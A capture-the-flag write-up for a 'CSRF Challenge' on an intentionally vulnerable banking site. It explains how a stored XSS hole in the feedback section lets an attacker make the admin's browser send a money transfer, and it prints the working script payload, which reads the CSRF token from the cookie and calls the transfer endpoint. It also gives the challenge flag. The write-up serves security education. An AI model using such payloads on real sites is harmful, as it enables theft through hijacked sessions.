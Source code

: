 ## CSRF Challenge 
**Points:** 300

**Description:**
The admin of this banking website is a very rich guy who loves reading feedback.
Little does he know that he is about to be the target of the biggest online bank heist in history!

## Write Up
This challenge is based upon a simple ( and vulnerable ) money transfer website that can transfer money from one user to another using user id of the receipient. The flag is listed a premium service that worth Rs. 1000. 

The catch here is that each user starts with a balance of 0, except admin who is "very rich". It is also mentioned that the admin frequently checks the feedback section.
The objective is to somehow steal money from the admin  and then purchase the flag.

### Vulnerability
A few quick observations will lead you to the answer.

We observe that the form uses GET to submit and has a csrf token as hidden input. This csrf token is also set in a cookie.

We have no knowledge of the admin's id. But we know that he checks the feedback section frequently. So that is one way of reaching the admin. Heading over to the feedback section, we see that we can enter some text and after submitting, it shows what we just submitted. What if we submit something like &lt;b&gt;Hi&lt;/b&gt; ? The text appears in bold! The feedback section is vulnerable to XSS!
Anything that a user submits within &lt;script&gt; will be executed by the admin's browser. 

We can use this to perform a Cross Site Request Forgery and submit the money transfer form riding on the admin's session with our id as the receipient

### Exploit

```js
<script>
var csrftoken = document.cookie.split('=')[1];
fetch("/transfer?userid=<myid>&amount=1000&csrf_token="+csrftoken);
</script>
```

Go back to the main page and et-voila! We see that our balance just increased by Rs. 1000!

### Flag
flag{g1ve_m3_my_mon3y_b4ck}